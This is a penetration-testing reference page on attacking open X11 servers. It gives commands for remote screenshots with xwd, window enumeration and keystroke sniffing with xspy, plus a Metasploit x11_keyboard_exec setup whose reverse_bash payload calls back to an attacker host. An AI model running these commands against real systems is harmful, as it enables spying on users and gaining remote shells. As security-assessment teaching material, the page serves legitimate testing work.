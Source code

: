 ```yaml
---
description: >-
  The X Window System (X11, or simply X) is a windowing system for bitmap
  displays, common on Unix-like operating systems. X provides the basic
  framework for a GUI environment.
---
```


# 6000 - X11

## Nmap

Script:

 `x11-access.nse` 

**Host script results**:   
`|_ x11-access: X server access is granted` 

### Sensepost created the following nmap script

[https://github.com/sensepost/x11-active-displays](https://github.com/sensepost/x11-active-displays)

**Usage**

```text
nmap -p6000 <host> --script x11-active-displays.nse
nmap -p6000 <host> --script x11-active-displays.nse --script-args=unsafe=1,dir="/home/<username>/Documents/"
```

**Output**

```text
Host script results:
| x11-active-displays: X server access is granted
|     Active display
|_    Screenshot saved to /tmp/<ip>:<dp>.jpg
Host script results:
| x11-active-displays: X server access is granted
|_    No active display
```

## Metasploit

X11 No-Auth Scanner - Module scans for X11 servers that allow anyone to connect without authentication. 

`auxiliary/scanner/x11/open_x11` 

## Connect to X11 server

**Xorg:**

`sudo Xorg -terminate -query $REMOTE_HOST :1` 

**Using X:** 

`X :1 -query s390vm.example.com`

* To exit press 'ctrl+alt+enter' 

**To enable XDMCP in Remmina run the following:** 

`sudo apt-get install remmina-plugin-xdmcp` 

## **Taking screenshot**

### **xwd**

XWD It is an X Window System utility that helps in taking screenshots. On our Kali System, we will use the xwd to take the screenshot of Xserver. This utility takes the screenshots in xwd format. 

To take a screenshot run: 

`xwd -root -screen -silent -display 192.168.1.109:0 > screenshot.xwd` 

Here we have the screenshot captured by the xwd, but it is in .xwd format, so to view it we will have to convert it to a viewable format like .png 

**Note:** You may need to install `imagemagick` to convert to png, `convert` is not pre installed on kali

`convert screenshot.xwd screenshot.png` 

On opening the png file we can see that the xwd tool has successfully captured the screenshot of the target system. 

### **xrdp** 

```text
iron@kali2:/opt/xrdp$ python xrdp.py 192.168.0.62:0 
              _        
__  ___ __ __| |_ __   
\ \/ / '__/ _` | '_ \  
 >  <| | | (_| | |_) | 
/_/\_\_|  \__,_| .__/  
               |_|     
X11 Remote Desktop 
xrdp.py <host>:<dp> 
------------------------ 
Example: 
xrdp.py 10.0.0.10:0 
xrdp.py 10.0.0.10:0 --no-disp 
```

## **Gaining remote shell**

 we will use the X11 Keyboard Command Injection module of the Metasploit Framework. This module exploits open X11 Server by connecting and registering a virtual keyboard. Then the Virtual Keyboard is used to open an xterm or gnome-terminal and then type and execute the payload. 

NOTE: As X Server is a visual service, while the executing of the module will take place, every task occurring on the Target System will be visible to the Victim. 

Now, after opening the Metasploit Framework, we will use the payload as shown:

```text
use unix/x11/x11_keyboard_exec 
msf exploit(unix/x11x11_keyboard_exec) > set rhost 192.168.1.109 
msf exploit(unix/x11x11_keyboard_exec) > set payload cmd/unix/reverse_bash 
msf exploit(unix/x11x11_keyboard_exec) > set lhost 192.168.1.120 
msf exploit(unix/x11x11_keyboard_exec) > set lport 4444 
msf exploit(unix/x11x11_keyboard_exec) > set time_wait 10 
msf exploit(unix/x11x11_keyboard_exec) >  run 
```

After running the module, it will first connect to the Server and search for xterm and open it. Then after waiting for 10 seconds as its the wait time we gave earlier, it will start typing the script command on the xterm, After executing this command, xterm will get closed, but it will provide a command shell to the Attacker. 

## **Gather information on the windows open** 

XWININFO - This is the built-in utility in Kali, it shows the window’s information for X Service. xwininfo can be used to get information about the windows opened on the target system. 

`xwininfo -root -tree -display 192.168.1.109:0`

* Root = specifies that X’s root window is the target window 
* Tree = displays the names of the windows 
* Display = specify the server to connect to 

We can extract much information from the screenshot like: 

* The victim has Gnome Terminal Opened 
* The victim is a VMware user 
* The victim has Nautilus \(Ubuntu File Browser\) Opened 

## **Capture keystrokes** 

XSPY It is a built-in tool Kali Linux for the X Window Servers. XSPY is a sniffer, it sniffs keystrokes on the remote or local X Server. 

